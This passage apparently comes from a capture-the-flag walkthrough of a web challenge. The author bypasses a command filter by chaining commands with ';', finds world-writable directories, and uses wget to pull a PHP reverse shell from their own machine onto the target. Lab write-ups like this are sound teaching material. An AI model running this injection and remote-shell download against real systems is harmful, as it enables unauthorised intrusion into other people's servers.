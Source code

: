 ```
secret                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- However, there are some commands that are being filtered. 

- The `whoami` command is not filtered, so at least we know we execute commands under `www-data`.

- The filter can be bypassed by using a permitted command, ; and the filtered command. 

eg: `whoami;ls`

- I tried using `wget` to get a reverse shell from my box and even if the command is technically running, the file couldn't be transferred because the current directory seems to be owned by root and we don't have write permissions.

```
total 16
drwxr-xr-x 3 root root 4096 Oct  4  2020 .
drwxr-xr-x 8 root root 4096 Oct  3  2020 ..
drwxr-xr-x 2 root root 4096 Oct  3  2020 images
-rw-r--r-- 1 root root 1520 Oct  4  2020 index.php
```

- However, by using `whoami;/usr/bin` we can see a list of binaries available on the system. 

```
-rwxr-xr-x  1 root   root      4899864 May 26  2020 php7.2
```

- I was looking around the system to see if there's PHP installed and if I could leverage that to run my reverse shelll. 

- `php7.2` has execute permissions set for `others`, so we can use this to run our reverse shell once we find a writable path.

- I managed to find a writable folder by using

```bash
find / -type d -perm -o+w 2>/dev/null
```

```
/dev/mqueue
/dev/shm
/tmp
/run/screen
/run/lock
/var/lib/php/sessions
/var/tmp
/var/crash
```

- Then, I've moved over the reverse PHP shell from my box to the target using `whoami;cd /var/tmp;wget http://ip:port/shell.php`

```
whoami;ls /var/tmp

shell.php
```
